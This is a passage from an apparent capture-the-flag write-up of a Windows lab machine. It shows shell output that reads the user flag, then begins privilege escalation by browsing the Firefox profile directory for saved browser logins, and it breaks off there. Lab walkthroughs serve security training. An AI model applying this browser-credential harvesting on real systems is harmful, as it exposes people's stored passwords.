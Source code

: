 ```

05/14/2020  08:24 PM    <DIR>          .
05/14/2020  08:24 PM    <DIR>          ..
04/21/2020  04:00 PM             1,197 Firefox.lnk
04/20/2020  12:27 AM            13,312 gatekeeper.exe
04/21/2020  08:53 PM               135 gatekeeperstart.bat
05/14/2020  08:43 PM               140 user.txt.txt
               4 File(s)         14,784 bytes
               2 Dir(s)  16,290,902,016 bytes free

C:\Users\natbat\Desktop>more user.txt.txt
more user.txt.txt
{H4lf_W4y_Th3r3}

The buffer overflow in this room is credited to Justin Steven and his 
"dostackbufferoverflowgood" program.  Thank you!

C:\Users\natbat\Desktop>

```
# privilege escalation
now we arrived to the hardest job in this windows machine
if we returned back to the desktop files we will notice ```firefox.lnk```
```
Directory of C:\Users\natbat\Desktop

05/14/2020  08:24 PM    <DIR>          .
05/14/2020  08:24 PM    <DIR>          ..
04/21/2020  04:00 PM             1,197 Firefox.lnk
04/20/2020  12:27 AM            13,312 gatekeeper.exe
04/21/2020  08:53 PM               135 gatekeeperstart.bat
05/14/2020  08:43 PM               140 user.txt.txt
               4 File(s)         14,784 bytes
               2 Dir(s)  16,290,902,016 bytes free
```
Retrieving credentials from browser caches is a well known path for prrev escalation, there is a known path in the windows files that sort firefox browser caches a quick google search you well find this path
```
C:\Users\{user}\AppData\Roaming\Mozilla\Firefox\Profiles\
```
in our case the user it's natbat
```
C:\Users\natbat\Desktop>cd C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles\
cd C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles\

C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 3ABE-D44B

 Directory of C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles

04/21/2020  04:00 PM    <DIR>          .
04/21/2020  04:00 PM    <DIR>          ..
05/14/2020  09:45 PM    <DIR>          ljfn812a.default-release
04/21/2020  04:00 PM    <DIR>          rajfzh3y.default
               0 File(s)              0 bytes
               4 Dir(s)  16,192,217,088 bytes free
```
if you notice there is a directory called ```ljfn812a.default-release``` serach about on google you will find this folder save the browser logins
let's see what this folder content